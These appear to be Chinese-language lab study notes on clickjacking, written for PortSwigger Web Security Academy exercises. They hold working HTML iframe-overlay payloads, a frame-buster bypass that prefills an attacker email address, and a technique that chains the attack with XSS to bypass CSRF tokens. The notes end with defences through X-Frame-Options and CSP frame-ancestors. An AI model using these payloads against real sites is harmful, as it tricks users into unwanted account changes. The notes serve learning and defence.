 # 一、知识点

本质：可以看成一个复杂版但是增强版的CSRF

### 1. 使用iframe加载目标页面、使用style隐藏iframe，并且显示虚伪页面

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.5 ;
        z-index: 2;
    }
    div {
        position:absolute;
        top:493px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ac4003a0319475d80692be900fd004d.web-security-academy.net/my-account"></iframe>
```

步骤：

1. iframe加载目标页面
2. styple调整虚伪页面与目标页面的位置
3. 调整之后，设置opacity为非常小，隐藏真实页面

注意：

1. 真实页面的 z-index需要比虚伪页面的大
2. opacity是显示度

### 2. 利用url预填充表单，劫持填充的敏感操作

步骤：

1. 发现一个敏感操作表单
2. 在url中加上?表单字段=xxx，表单自动填充xxx
3. 那么只需要把iframe的src带上?表单字段就行

### 3. 绕过iframe buster保护

步骤：

1. 在iframe标签中添加sandbox="allow-forms"

```html
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

### 4. URL预填充表单+POST_XSS

只需要发现XSS是URL可填充表单的就可以用于ClickJ

目的：

1. 如果是post xss，那么相当于csrf，如果存在csrf token，就无效
2. 点击劫持可以用于绕过CSRF token的XSS，前提：URL可填充

### 5. 防护手段

##### 1. X-Frame-Options响应头：

| 值               | 含义                                        |
| ---------------- | ------------------------------------------- |
| `DENY`           | 完全禁止嵌套                                |
| `SAMEORIGIN`     | 只允许同源页面嵌套                          |
| `ALLOW-FROM uri` | 仅允许指定来源 uri 的页面嵌套（被广泛弃用） |

##### 2. `Content-Security-Policy` 的 `frame-ancestors` 指令

| 值                    | 含义             |
| --------------------- | ---------------- |
| `'none'`              | 禁止所有页面嵌套 |
| `'self'`              | 允许同源页面嵌套 |
| `https://example.com` | 允许指定域嵌套   |